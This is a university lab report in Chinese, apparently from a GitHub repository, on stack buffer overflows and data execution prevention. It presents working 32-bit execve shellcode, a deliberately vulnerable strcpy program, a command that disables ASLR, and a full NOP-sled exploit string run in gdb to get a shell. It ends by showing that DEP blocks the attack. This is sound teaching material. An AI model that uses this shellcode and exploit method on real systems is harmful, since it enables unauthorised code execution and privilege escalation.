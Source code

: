 国科大《操作系统安全》第二次作业

### 缓冲区溢出与数据执行保护DEP实验

#### 实验环境

虚拟机：VMware16.1.0

操作系统：Ubuntu 18.04

内核：5.4.0-146-generic

#### 原理

由于堆栈是由内存高地址向内存低地址方向增长，而数组的变量是从内存低地址向高地址方向增长。如果没有对数据的越界进行检查和限制，通过向程序的数组缓冲区写入超出其长度的内容，覆盖堆栈原来的返回地址，就会造成缓冲区溢出，从而破坏程序的堆栈。如果构造特殊的注入向量覆盖返回地址，使程序转而执行恶意代码，就达到攻击的目的。
![image-20230414202156113](pic/image-20230414202156113.png)

#### 编写shellcode

为了得到一个shell，需要使用`sys_execve`系统调用，系统调用号在 IA-32 中为 11(0xb)，在x86-64 中为 59(0x3b)。对应C语言中的系统函数`int execve(const char *filename, char *const argv[ ], char *const envp[ ])`，用于在一个进程中启动新的程序。它的第一个参数是指程序所在的路径，第二个参数是传递给程序的参数，数组指针`argv`必须以程序filename开头，NULL结尾，最后一个参数为传递程序的新环境变量。

##### shellcode的汇编代码：

```c
#include <stdio.h>
void shellcode(){
	__asm__(
	"xor %eax,%eax\n\t"		// 将eax寄存器异或处理值为0
	"pushl %eax\n\t"		// 将0压入栈，push相当于pushl
	"push $0x68732f2f\n\t"	// 将“//sh”压入栈，//是为了凑4个字节对齐
	"push $0x6e69622f\n\t"	// 将“/bin”压入栈
	"movl %esp,%ebx\n\t"	// 将栈底指针ebx赋值为当前栈顶指针esp，系统调用的第一个参数ebx
	"pushl %eax\n\t"		// 将0压入栈中
	"pushl %ebx\n\t"		// 将字符串“//sh/bin/0”的首地址压入栈中
	"movl %esp,%ecx\n\t"	// 让ecx指向ebx，系统调用的第2个参数ecx中就保持了指针数组的地址
	"cltd\n\t"				// 让eax拓展到edx:eax，即edx设置为0，系统调用的第3个参数为零
	"movb $0xb,%al\n\t"		// 将execve的功能号赋值给eax的低八位
	"int $0x80\n\t"			// 使用软中断进行系统调用
	);
}
int main(int argc, char **argv){
	shellcode();
	return 0;
}
```

编译：

```
gcc -m32 -o shellcode shellcode.c
```

运行效果：

![image-20230413142707878](pic/image-20230413142707878.png)

可以看到，成功获得了shell。

反汇编获得shellcode的16进制代码：

```sh
objdump shellcode -d| less
```

![image-20230414230840134](pic/image-20230414230840134.png)

##### 16进制的shellcode:

```c
#include<stdio.h>
#include<string.h>
int main(){
	char shellcode[]=
		"\x31\xc0\x50\x68\x2f\x2f"
		"\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89"
		"\xe1\x99\xb0\x0b\xcd\x80";
	void (*fp)(void);
	fp = (void*)shellcode;
	fp();
	return 0;
}
```

编译：

```sh
 gcc -z execstack -m32 -o shellcode shellcode_asm.c
```

运行效果：

![image-20230413144521561](pic/image-20230413144521561.png)

同样获得了shell。

#### 编写可溢出程序

```c++
//filename:escalate.cpp
#include <iostream>  
#include <cstring>  

void vulnerable(char *tmp) {  
    char input[400];  
    strcpy(input,tmp); //copies a malicious string into the character buffer  
}  

int main(int argc, char* argv[]) {  
    if (argc != 2) {
        std::cout << "Usage: ./prog argn";  
        return 1;  
    }  
    vulnerable(argv[1]); //passes our input to the vulnerable function  
    return 0;  
} 
```

函数中的`strcpy()`将直接把`tmp`中的内容copy到buffer中。这样只要`tmp`的长度大于字符数组长度，就会造成buffer的溢出，使程序运行出错。存在像strcpy这样的问题的标准函数还有`strcat()`，`sprintf()`，`vsprintf()`，`gets()`，`scanf()`等。

##### 关闭地址随机化ASLR保护机制：

```sh
sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"
```

##### 测试test.sh：

```sh
g++ escalate.cpp -o escalate -m32 -fno-stack-protector -z execstack
gdb -q --args ./escalate `python -c 'print "A"*412 + "BCDE"'`
```

1.编译程序：

- -z execstack：关闭栈保护执行，即栈内的数据页可以作为指令执行
- -fno-stack-protector：禁用栈保护canary，如果启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中这个cookie信息称为canary。

2.调用gdb调试：测试溢出长度，找出返回地址所在位置。

#### 测试过程

正常运行，无分段错误提示：

![image-20230413161930031](pic/image-20230413161930031.png)

分段错误提示：

![image-20230413153545814](pic/image-20230413153545814.png)

分段错误提示，返回地址`0x45444342`，正好对应`EDCB`的ASCII码，即字符串中的`BCDE`正好占据了返回地址所在的位置：

![image-20230413153408978](pic/image-20230413153408978.png)

------

更新：

确定返回地址的位置：

![image-20230425105447212](pic/image-20230425105447212.png)

------

现在需要我们更换返回地址到一个希望它开始执行的地方，通过`x/32z $esp`命令（配合enter键）查看栈中的数据，找到字符A（对应41）起始位置附近：

![image-20230413213802191](pic/image-20230413213802191.png)

所需参数字符串共416字节，shellcode代码占24字节，返回地址占4字节，前面的符号用`\x90`即NOP命令代替。这样做，一旦启动可以一直执行空指令直到后面的shellcode代码，此时返回地址只需要指向任意一个NOP即可，故`0xffffd174`便是一个理想的返回地址。

更新参数字符串：

```sh
gdb -q --args ./escalate `python -c 'print "\x90"*388 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x74\xd1\xff\xff"'`
```

运行效果：

![image-20230414212421564](pic/image-20230414212421564.png)

成功获得shell。

去掉编译选项`-z execstack`即开启数据执行保护机制后，无法跳转执行shellcode：

![image-20230414220500477](pic/image-20230414220500477.png)

#### 注意

在gdb之外运行时，返回地址失效：

![image-20230414224331126](pic/image-20230414224331126.png)

多次测试可以找到新的返回地址，NOP指令越多，找到新的返回地址越容易：

![image-20230414224215000](pic/image-20230414224215000.png)

同时，上述操作尝试获取root权限的shell失败。(其他人好像都行，原因暂未发现，可告知1766237780@qq.com)

root执行下可以获得root权限的shell：

![image-20230414221847748](pic/image-20230414221847748.png)